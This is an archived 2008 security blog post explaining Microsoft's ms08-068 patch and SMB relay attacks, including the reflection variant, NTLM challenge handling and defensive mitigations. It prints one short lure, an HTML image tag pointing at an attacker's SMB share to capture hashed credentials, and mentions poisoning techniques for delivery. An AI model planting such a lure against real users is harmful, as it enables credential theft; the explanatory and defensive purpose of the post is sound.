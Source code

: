 ```yaml
---
id: 111
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T11:58:19-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=111'
permalink: '/?p=111'
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading [The Metasploit Blog](http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html).

Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusions. Just leave me a comment or an email!

I have talked about how [Lanman and NTLM](http://www.skullsecurity.org/blog/?p=34) work in the past, so I'll assume you've read that, and give you a quick reminder here. Basically, Lanman and NTLM will hash your password using their respective algorithms, then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that, that type of attack has been fixed in NTLMv2 (since the client provides part of the randomness), but that's neither here nor there.

A SMB Relay attack is a type of man-in-the-middle attack where an attacker asks a user to authenticate to a machine controlled by the attacker, then connects to a server that the victim has access to. The attacker forwards the challenge from the server to the client, and the client answers based on that challenge, giving the attacker access. Here are the players:

- The **attacker** is the person trying to break into the box
- The **victim** is the person who has the credentials
- The **target** is the system the attacker wants access to, and that the victim has credentials for

And here's the scenario:

1. Attacker tricks the victim into connecting to him; this is easy, I'll explain how later
2. Attacker establishes connection to the target, receives the 8-byte challenge
3. Attacker sends the 8-byte challenge to victim
4. Victim responds to the attacker with the password hash
5. Attacker responds to the target's challenge with the victim's hash
6. Target grants access to attacker

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important.

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the target, and the victim needs to have access to it.

The first one is easy -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:

```
<img src="\AttackerSHAREfile.jpg">
```

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, it's the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by some sneaky vandalism, or by any number of ways.

Other ways to do this include DNS poisoning, ARP spoofing, \[url=http://www.skullsecurity.org/blog/?p=6\]NetBIOS poisoning\[/url\], and any number of other ways. Suffice to say, it's pretty easy to trick the victim.

The second trick is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:

- In a domain scenario, the user's domain account may have access to multiple machines, including the target
- In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work
- The target may be the *same physical machine as the victim*

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps:

1. Attacker tricks the victim into connecting to him
2. Attacker establishes connection back to the victim, receives the 8-byte challenge
3. Attacker sends the victim's 8-byte back
4. Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer
5. Attacker responds to the victim's challenge with the victim's hash
6. Victim grants access to attacker

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials.

And this particular attack is what ms08-068 patches!

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself.

## Mitigation

I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):

- Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness
- Enable (and require) message signing for both clients and servers -- this will prevent relay attacks